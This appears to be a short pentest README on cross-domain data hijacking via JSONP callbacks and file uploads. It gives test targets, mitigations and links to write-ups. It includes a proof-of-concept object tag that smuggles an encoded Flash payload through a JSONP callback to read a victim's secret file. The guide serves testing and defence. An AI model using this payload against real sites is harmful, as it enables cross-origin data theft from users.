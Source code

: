 ###Cross Domain Data Hijacking

See:
1) http://blog.detectify.com/post/86298380233/the-pitfalls-of-allowing-file-uploads-on-your-website

2) https://soroush.secproject.com/blog/2014/05/even-uploading-a-jpg-file-can-lead-to-cross-domain-data-hijacking-client-side-attack/

3) http://50.56.33.56/blog/?p=242

####What to test?

- JSONP Callback Names (Most are unsanitised)
- File Uploads (Upload the JPG found in this folder as any format)
- Any API/End-point which allows for users to inject arbritary content in the beginning of a document

If JSONP is encountered, attempt the following exploit:
```
<object style="height:1px;width:1px;" data="http://victim.com/user/jsonp?callback=CWS%07%0E000x%9C%3D%8D1N%C3%40%10E%DF%AE%8D%BDI%08%29%D3%40%1D%A0%A2%05%09%11%89HiP%22%05D%8BF%8E%0BG%26%1B%D9%8E%117%A0%A2%DC%82%8A%1Br%04X%3B%21S%8C%FE%CC%9B%F9%FF%AA%CB7Jq%AF%7F%ED%F2%2E%F8%01%3E%9E%18p%C9c%9Al%8B%ACzG%F2%DC%BEM%EC%ABdkj%1E%AC%2C%9F%A5%28%B1%EB%89T%C2Jj%29%93%22%DBT7%24%9C%8FH%CBD6%29%A3%0Bx%29%AC%AD%D8%92%FB%1F%5C%07C%AC%7C%80Q%A7Nc%F4b%E8%FA%98%20b%5F%26%1C%9F5%20h%F1%D1g%0F%14%C1%0A%5Ds%8D%8B0Q%A8L%3C%9B6%D4L%BD%5F%A8w%7E%9D%5B%17%F3%2F%5B%DCm%7B%EF%CB%EF%E6%8D%3An%2D%FB%B3%C3%DD%2E%E3d1d%EC%C7%3F6%CD0%09" type="application/x-shockwave-flash" allowscriptaccess="always" flashvars="c=alert&u=http://victim.com/secret_file.txt"></object>
```

####How to mitigate?

- Use a sandboxed domain for user content
- Use the Content-Disposition header
- Validate JSONP Callback names

All credit to Soroush for the PoC included in this folder.